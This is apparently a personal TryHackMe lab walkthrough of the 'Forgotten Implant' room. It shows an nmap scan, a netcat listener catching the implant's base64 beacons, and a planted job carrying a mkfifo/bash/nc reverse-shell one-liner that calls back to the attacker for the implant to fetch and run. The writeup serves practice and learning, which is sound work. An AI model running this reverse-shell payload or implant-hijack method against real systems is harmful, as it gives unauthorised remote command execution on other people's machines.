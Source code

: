 <h1 align="center">Forgotten Implant</h1>
<p align="center">2025, September 8<br> Hey there, fellow lifelong learner! I´m <a href="https://www.linkedin.com/in/rosanafssantos/">Rosana</a>, and I’m excited to join you on this adventure, part of my <code>490</code>-day-streak in <a href="https://tryhackme.com">TryHackMe</a>.<br>
<em>Learn the methodology of enumerating websites by using tools such as Gobuster, Nikto and WPScan</em><br>
<img width="80px" src="image" src=" "><br>
Access this TryHackMe´s walkthrough <a href= ">here </a>.<br>
<img width="1200px" src=" "></p>


<h2>Task 1 . Forgotten Implant</h2>


<h2>nmap</h2>

```bash
:~# nmap -sT -p- xx.xxx.xx.xx
...
PORT   STATE SERVICE
22/tcp open  ssh
```

```bash
:~# nc -nlvp 81
Listening on 0.0.0.0 81
Connection received on xx.xxx.xx.xx 40300
GET /heartbeat/eyJ0aW1lIjogIjIwMjUtMDgtMjdUMjA6Mjk6MDEuMzA5MTUxIiwgInN5c3RlbWluZm8iOiB7Im9zIjogIkxpbnV4IiwgImhvc3RuYW1lIjogImlwLTEwLTIwMS03NS05MCJ9LCAibGF0ZXN0X2pvYiI6IHsiam9iX2lkIjogMCwgImNtZCI6ICJ3aG9hbWkifSwgInN1Y2Nlc3MiOiBmYWxzZX0= HTTP/1.1
Host: xx.xxx.xx.xxx:81
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

```bash
:~# echo '{"job_id": 1, "cmd": "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/bash -i 2>&1|nc xx.xxx.xx.xx xxxx >/tmp/f"}' | base64 > get-job/ImxhdGVzdCI=
```

<img width="920" height="197" alt="image" src="https://github.com/user-attachments/assets/8f2e737f-275a-4be5-8910-687adbc57f36" />

<br>
<br>

```bash
:~# echo 'eyJ0aW1lIjogIjIwMjUtMDgtMjdUMjA6Mjk6MDEuMzA5MTUxIiwgInN5c3RlbWluZm8iOiB7Im9zIjogIkxpbnV4IiwgImhvc3RuYW1lIjogImlwLTEwLTIwMS03NS05MCJ9LCAibGF0ZXN0X2pvYiI6IHsiam9iX2lkIjogMCwgImNtZCI6ICJ3aG9hbWkifSwgInN1Y2Nlc3MiOiBmYWxzZX0=' | base64 -d
{"time": "2025-xx-xxTxx:xx:xx1.xxxxxx", "systeminfo": {"os": "Linux", "hostname": "ip-xx-xxx-xx-xx"}, "latest_job": {"job_id": 0, "cmd": "whoami"}, "success": false}
```

```bash
:~# python3 -m http.server 81
Serving HTTP on 0.0.0.0 port 81 (http://0.0.0.0:81/) ...
xx.xxx.xx.xx - - [08/Sep/2025 xx:xx:xx] code 404, message File not found
xx.xxx.xx.xx - - [08/Sep/2025 xx:xx:xx] "GET /heartbeat/eyJ0aW1lIjogIjIwMjUtMDgtMjdUMjA6MzI6MDIuMDA2MDMzIiwgInN5c3RlbWluZm8iOiB7Im9zIjogIkxpbnV4IiwgImhvc3RuYW1lIjogImlwLTEwLTIwMS03NS05MCJ9LCAibGF0ZXN0X2pvYiI6IHsiam9iX2lkIjogMCwgImNtZCI6ICJ3aG9hbWkifSwgInN1Y2Nlc3MiOiBmYWxzZX0= HTTP/1.1" 404 -
xx.xxx.xx.xx - - [08/Sep/2025 xx:xx:xx] code 404, message File not found
xx.xxx.xx.xx - - [08/Sep/2025 xx:xx:xx] "GET /get-job/ImxhdGVzdCI= HTTP/1.1" 404 -
xx.xxx.xx.xx - - [08/Sep/2025 xx:xx:xx] code 404, message File not found
xx.xxx.xx.xx - - [08/Sep/2025 xx:xx:xx] "GET /job-result/eyJzdWNjZXNzIjogZmFsc2UsICJyZXN1bHQiOiAiRW5jb2RpbmcgZXJyb3IifQ== HTTP/1.1" 404 -
```

